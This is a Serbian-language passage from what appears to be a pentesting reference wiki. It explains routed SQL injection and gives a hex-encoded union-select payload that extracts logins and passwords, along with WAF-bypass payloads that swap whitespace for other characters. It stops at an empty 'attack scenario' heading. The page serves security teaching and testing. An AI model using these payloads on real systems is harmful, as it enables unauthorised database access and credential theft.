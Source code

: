 <figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji događaj u oblasti kibernetičke bezbednosti u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je vrelo sastajalište za profesionalce iz oblasti tehnologije i kibernetičke bezbednosti u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection je situacija u kojoj ubacivački upit nije onaj koji daje izlaz, već izlaz ubacivačkog upita ide u upit koji daje izlaz. ([Iz dokumenta](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Primer:

```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

## Bypass WAF

[Početni zaobiđeni odavde](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### Zaobiđenje bez razmaka

Bez razmaka (%20) - zaobiđeno korišćenjem alternativa za razmake

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## No Whitespace - zaobilaženje korišćenjem komentara

### Opis

No Whitespace (bez razmaka) tehnika zaobilaženja se koristi kada je unos korisnika filtriran tako da ne dozvoljava upotrebu razmaka. Ova tehnika koristi SQL komentare kako bi se zaobišao taj filter.

### Napadni vektor

Napadač može iskoristiti ovu tehniku kada je unos korisnika ograničen i ne dozvoljava korišćenje razmaka.

### Napadni scenario
